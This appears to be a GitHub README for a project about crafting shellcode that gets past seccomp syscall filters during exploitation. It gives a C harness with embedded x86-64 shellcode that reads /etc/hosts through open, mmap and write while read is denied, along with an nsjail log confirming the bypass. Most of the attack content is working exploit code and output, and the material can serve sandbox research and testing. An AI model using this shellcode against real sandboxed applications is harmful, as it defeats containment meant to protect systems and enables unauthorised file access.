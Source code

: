 # seccomp-bypass
seccomp is used by applications to restrict system calls it can make, thus sandboxing it. Its goal is to limit the application to only the facilities it needs to perform its job and nothing more.

The goal here is to bypass these seccomp restrictions when exploiting applications. So you need shellcode that will carry out its purpose while still adhering to the seccomp filter in place. So if the filter specifies a denial of `read` and `write`, then valid shellcode may use any system call but those.

# Premise
A typical exploit scenario is that you have a vulnerable application into which you can inject shell code. The code below is a generated application, contrived purely to run some shellcode. The output is a test program that we run to confirm the shellcode's viability when injected into a foreign application.

&gt;: ./gen-shellcode.sh src/read-with-mmap.s 
```
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x66\x41\xbb\x74\x73\x41\x53\x49\xbb\x2f\x65\x74\x63\x2f\x68"
                   "\x6f\x73\x41\x53\x48\x8d\x3c\x24\x48\x31\xf6\x04\x02\x0f\x05"
                   "\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff\x48\x31\xd2\x80\xc2"
                   "\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2\x41\x80\xc2\x01\x48"
                   "\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe\xc2\x48\x89\xc6\x48"
                   "\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe\xc0\x0f\x05\x48\x31"
                   "\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}
```
 *Compile it with: `$gcc -static read-with-mmap.c -o read-with-mmap`

# Examples
Below are examples of shellcode that performs the specified action in the case where the specified system calls are disallowed. The shellcode is derived by running `src/gen-shellcode.sh $file.s`.

## Read a file from the filesystem
### Syscalls used: `open`,`close`,`write`, `mmap`
This example is based on shellcode from `src/read-with-mmap.s` that reads a target's `/etc/hosts` file without using read(2). You can see the line `127.0.0.1	localhost` present in the output below, which is a sign the seccomp filter is bypassed successfully.

To follow along, use [Google's nsjail](https://github.com/google/nsjail) to run programs with a specific seccomp policy. Try replacing `read` with any of `open`,`close`,`write`, or `mmap` in the DENY clause. Doing so should cause the command to fail because the shellcode in this example uses all four of those calls.
```
>:~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read } } USE a DEFAULT ALLOW' -- $HOME/seccomp-bypass/read-with-mmap
[2017-05-12T16:48:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-12T16:48:04-0700] Uid map: inside_uid:360840 outside_uid:360840
[2017-05-12T16:48:04-0700] Gid map: inside_gid:5000 outside_gid:5000
[2017-05-12T16:48:04-0700] Executing '/home/unixist/seccomp-bypass/read-with-mmap' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

### Syscalls used: `open`, `sendfile`
coming soon
